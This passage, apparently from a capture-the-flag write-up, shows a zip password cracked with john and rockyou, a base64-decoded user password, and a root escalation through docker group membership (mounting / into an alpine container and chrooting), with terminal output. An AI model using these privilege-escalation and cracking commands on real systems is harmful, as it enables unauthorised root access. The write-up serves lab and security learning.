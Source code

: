 > no password
  
We get a encryped zip file. Use john for decryption.  
  
`zip2john backup.zip > hash` and `john hash --wordlist=/usr/share/wordlists/rockyou.txt`. Unzip with the password.  
  
We get a php file called source_code.php with a base64 hash. Decrypt the hash locally with:  
  
`echo "<hash>" | base64 -d`
  
We get the password for anurodh!
  
`su anurodh` and enter the password.
  
  

---
  

# <ins>Root escalation</ins>
  
We are now active as anurodh. Linpeas also look for SUIDs or capabilities but no hit. I also check `sudo -l` but nothing new.  
  
But our linpeas show us something interesting. The groups of anurodh. I checked it with `id` again and we are in the docker group.  
[GTFObins](https://gtfobins.github.io/gtfobins/docker/) will help us to escalte via docker so search for the way to go.  
  

```bash
anurodh@ubuntu:/var/www/files/images$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# python3 -c 'import pty;pty.spawn("/bin/bash")'
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@c8d010f269cc:/# cd /root
root@c8d010f269cc:~# ls -la
total 72
drwx------  6 root root  4096 Oct  4 14:13 .
drwxr-xr-x 24 root root  4096 Oct  3 03:33 ..
-rw-------  1 root root   129 Nov 30 17:47 .bash_history
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  2 root root  4096 Oct  3 06:40 .cache
drwx------  3 root root  4096 Oct  3 05:37 .gnupg
-rw-------  1 root root   370 Oct  4 07:36 .mysql_history
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root 12288 Oct  4 07:44 .proof.txt.swp
drwx------  2 root root  4096 Oct  3 03:40 .ssh
drwxr-xr-x  2 root root  4096 Oct  3 04:07 .vim
-rw-------  1 root root 11683 Oct  4 14:13 .viminfo
-rw-r--r--  1 root root   166 Oct  3 03:55 .wget-hsts
-rw-r--r--  1 root root  1385 Oct  4 07:42 proof.txt
root@c8d010f269cc:~# wc -l proof.txt 
32 proof.txt
```
  